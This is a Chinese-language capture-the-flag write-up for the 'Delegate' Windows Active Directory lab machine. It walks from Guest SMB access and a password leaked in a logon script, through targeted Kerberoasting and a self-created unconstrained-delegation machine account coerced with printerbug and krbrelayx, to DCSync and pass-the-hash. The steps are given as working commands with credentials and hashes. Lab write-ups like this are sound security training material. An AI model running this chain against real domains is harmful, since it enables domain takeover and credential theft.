


Delegate 是一台中等难度的 Windows AD 靶机。立足点在 Guest 空口令可读的 `NETLOGON`，提权的核心是一个普通域用户手里本不该出现的 `SeEnableDelegationPrivilege`。

## 简要流程图



## 文字版流程

1. 立足：`Guest` 空口令枚举 SMB，`NETLOGON` 里的 `users.bat` 泄露 `A.Briggs` 口令。
2. 横向：`A.Briggs` 对 `N.Thompson` 有 `GenericWrite`，Targeted Kerberoasting 破出 `N.Thompson` 口令，WinRM 登录拿 user flag。
3. 侦察：`N.Thompson` 的 `whoami /priv` 亮出 `SeMachineAccountPrivilege` 与 `SeEnableDelegationPrivilege`。
4. 提权：用这两个权限自造非约束委派机器 `DELEGATE$`，`printerbug` 强制 `DC1` 认证，`krbrelayx` 抓到 `DC1$` 的 TGT。
5. 收尾：以 `DC1$` 身份 DCSync 导出 `Administrator` 哈希，`psexec` 拿下域控。

BloodHound 里的关键边：

```
A.Briggs -[GenericWrite]-> N.Thompson -[CanPSRemote]-> DC1
```

## 正文细节

### 0x01 立足：Guest 空口令，NETLOGON 里捡到第一组凭据

nmap 是标准域控指纹，SMB(445) 开着，从这里进。

```bash
# 完整 nmap 端口表贴这里（DC 标准套件：SMB / LDAP / Kerberos / WinRM）
```

`Guest` 空口令可以登录，`NETLOGON` 对认证用户可读，里面是登录脚本 `users.bat`：

```bash
netexec smb 10.129.174.10 -u 'Guest' -p '' --shares
impacket-smbclient Guest@10.129.174.10 -no-pass
```

```
# use NETLOGON
# get users.bat
net use * /delete /y
net use v: \\dc1\development
if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123
```

命令里挂的是 `/user:Administrator`，容易让人以为是域管口令，但这行只在当前用户为 `A.Briggs` 时才执行。实测这组口令属于 `A.Briggs`：

```
delegate.vl\A.Briggs:P4ssw0rd1#123
```

### 0x02 横向：GenericWrite 换一张可爆破的票

BloodHound 里这条边就够用：`A.Briggs` 对 `N.Thompson` 有 `GenericWrite`，可写 `servicePrincipalName`，直接上 Targeted Kerberoasting。

```bash
targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123'
john cred.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

口令在 rockyou 里，直接爆出：

```
delegate.vl\N.Thompson:KALEB_2341
```

`N.Thompson` 能 WinRM，登进去拿 user flag：

```bash
evil-winrm -u 'N.Thompson' -p 'KALEB_2341' -i 10.129.174.10
```

### 0x03 侦察：两个委派权限

`whoami /priv` 给出两行平时见不到的权限：

```
SeMachineAccountPrivilege     Add workstations to domain
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation
```

`SeEnableDelegationPrivilege` 是这台靶机唯一真正非常规的地方：这个"是否信任委派"的属性，默认只有域管能改，这里却下放给了一个普通域用户。配合 `SeMachineAccountPrivilege` 能凭空造账户，两个权限凑齐，我就能自己造一台机器并把它设成非约束委派。这种组合在真实环境里几乎见不到。

### 0x04 提权：自造非约束委派机器，强制 DC1 认证抓 TGT

这一步的核心机制用一张图更直观。



非约束委派机器会缓存所有向它认证的账户的 TGT。把 `DELEGATE$` 设成非约束委派后，`printerbug` 强制 `DC1` 认证它，`DC1$` 的 TGT 就落进它的缓存，我控制这台机器，直接从缓存里把票拿走。

接下来这几步环环相扣，前一步没做成，后面就走不下去。先造机器账户 `DELEGATE$`，给它加上 `TRUSTED_FOR_DELEGATION`：

```bash
impacket-addcomputer -computer-name 'DELEGATE$' -computer-pass 'Password123!' \
  -dc-ip 10.129.174.10 'delegate.vl'/'N.Thompson':'KALEB_2341'

bloodyAD -d delegate.vl -u N.Thompson -p KALEB_2341 --host dc1.delegate.vl \
  add uac 'DELEGATE$' -f TRUSTED_FOR_DELEGATION
```

前提是 `DC1` 认证时能解析到我，所以给 `DELEGATE$` 挂一个受控主机名（写进 `msDS-AdditionalDnsHostName`），再往域内 DNS 加一条指向攻击机的 A 记录。DNS 记录写下去不是立刻生效，等约 3 分钟：

```bash
addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' \
  -s 'cifs/DELEGATE.delegate.vl' -t 'DELEGATE$' --additional -dc-ip 10.129.174.10 dc1.delegate.vl

dnstool.py -u 'delegate.vl\DELEGATE$' -p 'Password123!' \
  --action add --record DELEGATE.delegate.vl --data 10.10.14.13 --type A -dns-ip 10.129.174.10 dc1.delegate.vl

nslookup DELEGATE.delegate.vl 10.129.174.10
```

记录生效后起 `krbrelayx` 监听。这里用 `krbrelayx` 而不是 `ntlmrelayx`，因为要接的是转发过来的 Kerberos TGT，落到 ccache。它需要 `DELEGATE$` 的 Kerberos 密钥来解票，给它盐值和口令让它自己算（`krbsalt` 的 realm 部分大写）：

```bash
krbrelayx.py --krbsalt 'DELEGATE.VLhost/delegate.delegate.vl' --krbpass 'Password123!'
```

监听跑起来后，`printerbug` 强制 `DC1` 向我的主机名发起认证：

```bash
printerbug.py delegate.vl/'N.Thompson':'KALEB_2341'@'dc1.delegate.vl' 'DELEGATE.delegate.vl'
```

`DC1` 一认证，`krbrelayx` 就把 `DC1$` 的 TGT 落到本地 ccache。跑一遍 `impacket-findDelegation` 确认 `DELEGATE$` 处于非约束状态：

```
$ impacket-findDelegation 'delegate.vl'/'N.Thompson':'KALEB_2341'

AccountName  AccountType  DelegationType  DelegationRightsTo
-----------  -----------  --------------  ------------------
DELEGATE$    Computer     Unconstrained   N/A
```

### 0x05 收尾：DC1$ 身份 DCSync

`DC1$` 是域控机器账户，天然带目录复制权限。加载它的 ccache，DCSync 把域凭据拖下来：

```bash
export KRB5CCNAME='DC1$.ccache'
impacket-secretsdump -k 'delegate.vl'/'DC1$'@'dc1.delegate.vl' -no-pass
```

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::
...
```

拿 `Administrator` 的 NT 哈希做 pass-the-hash，登上去取 root flag：

```bash
impacket-psexec 'Administrator@delegate.vl' \
  -hashes aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93
```

## 参考链接

1. [The Hacker Recipes - Unconstrained delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations/unconstrained)
2. [The Hacker Recipes - Kerberoasting](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast)
3. [dirkjanm - krbrelayx](https://github.com/dirkjanm/krbrelayx)
